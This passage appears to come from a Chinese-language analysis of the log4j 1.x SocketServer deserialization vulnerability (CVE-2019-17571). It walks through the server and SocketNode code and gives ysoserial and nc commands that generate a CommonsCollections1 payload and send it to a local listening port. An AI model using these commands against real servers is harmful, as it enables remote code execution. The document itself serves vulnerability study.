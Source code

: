 ```bash
        cat.info("Connected to client at " + socket.getInetAddress());
        cat.info("Starting new socket node.");
        // 创建一个线程
        new Thread(new SocketNode(socket,
                    LogManager.getLoggerRepository()),"SimpleSocketServer-" + port).start();
      }
    } catch(Exception e) {
      e.printStackTrace();
    }
}
```

执行到 serverSocket.accept();会一致等待接收，此时使用 ysoserial 生成 CC1 链的 payload，再使用 nc 向目标 ip 和端口发送数据

```bash
java -jar ysoserial-all.jar CommonsCollections1 "calc.exe" > cve201917571
cat cve201917571| nc 127.0.0.1 4444
```

此时 accept 成功接收到一个客户端的连接  
[![](assets/1700701330-b264ff2e62d388987b7b468aac043734.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231120133100-fd4054f4-8765-1.png)

主要看创建线程的代码，里面参数中 new 了一个 SocketNode 对象，进入

```bash
public SocketNode(Socket socket, LoggerRepository hierarchy) {
    this.socket = socket;
    this.hierarchy = hierarchy;
    try {
        // 创建一个 ObjectInputStream 对象 ois，数据从 socket 中获取数据流
      ois = new ObjectInputStream(
                         new BufferedInputStream(socket.getInputStream()));
    } catch(InterruptedIOException e) {
      Thread.currentThread().interrupt();
      logger.error("Could not open ObjectInputStream to "+socket, e);
    } catch(IOException e) {
      logger.error("Could not open ObjectInputStream to "+socket, e);
    } catch(RuntimeException e) {
      logger.error("Could not open ObjectInputStream to "+socket, e);
    }
}
```
